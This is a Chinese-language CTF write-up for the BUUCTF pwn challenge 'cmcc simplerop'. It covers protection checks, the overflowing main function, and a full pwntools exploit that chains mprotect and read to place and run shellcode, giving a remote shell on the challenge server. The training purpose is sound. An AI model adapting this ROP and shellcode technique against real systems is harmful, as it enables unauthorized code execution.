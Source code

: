 ```yaml
---
author: 
  name: Zephyr
title: cmcc simplerop
date: 2022-4-6 16:10:08
permalink: /pages/2e1547494524d1a8
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# cmcc simplerop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/cmcc_simplerop/simplerop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

### 链接方式

```shell
file simplerop
simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
```

静态链接

## 思路分析

1. 目前信息：

   - main函数存在任意长度的溢出点
   - 静态链接文件
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 溢出劫持执行流到mprotect修改bss段的权限，将shellcode写入bss段处，返回并执行获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/cmcc_simplerop/simplerop'
io = remote("node4.buuoj.cn", 29263)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x1c+4
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
bss_start = elf.bss() & 0xfffff000  # 页对齐
bss_size = 0x1000
rwx = 7
pop_3times_ret = 0x0806e828
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, bss_start,bss_size, rwx, read_addr, bss_start, 0, bss_start, bss_size])
io.recvuntil('Your input :')
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.interactive()
```

